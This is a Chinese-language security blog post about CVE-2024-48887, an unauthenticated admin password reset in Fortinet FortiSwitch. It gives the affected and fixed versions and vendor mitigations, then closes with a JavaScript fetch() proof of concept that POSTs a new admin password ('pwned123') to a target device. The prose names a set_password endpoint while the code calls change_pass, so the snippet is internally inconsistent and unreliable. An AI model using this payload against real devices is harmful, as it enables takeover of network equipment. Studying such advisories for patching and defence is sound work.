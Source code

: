 #  Fortinet FortiSwitch 任意密码重置 CVE-2024-48887   
 Khan安全团队   2025-04-25 03:48  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV22lv9nuQ2RNSCtD6UuMnCEbICISDgpY3aQKec7nIx7z5YxicV29mKnVgn3CNFyj39I8RZPXjAHsRQ/640?wx_fmt=png&from=appmsg "")  
  
该漏洞源于通过 FortiSwitch Web 界面更改密码时缺乏适当的验证。攻击者可以向set_password终端发送特殊请求，无需登录或任何用户交互即可更改管理员密码。由于该漏洞复杂度较低，因此存在重大风险——几乎可以在任何暴露界面的环境中实施。  
  
受影响的版本范围从FortiSwitch 6.4.0 到 7.6.0。该问题已在固件版本 6.4.15、7.0.11、7.2.9、7.4.5 和 7.6.1 中得到修复。对于无法及时应用更新的用户，Fortinet 建议采取临时缓解措施：禁用对管理界面的 HTTP 和 HTTPS 访问，并将设备访问限制为仅受信任的主机。  
  
```
fetch('http://target-ip/change_pass', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    username: 'admin',
    newpass: 'pwned123',
    confirm: 'pwned123'
  })
})
.then(res => res.text())
.then(data => console.log('Response:', data));
```  
  
  
  
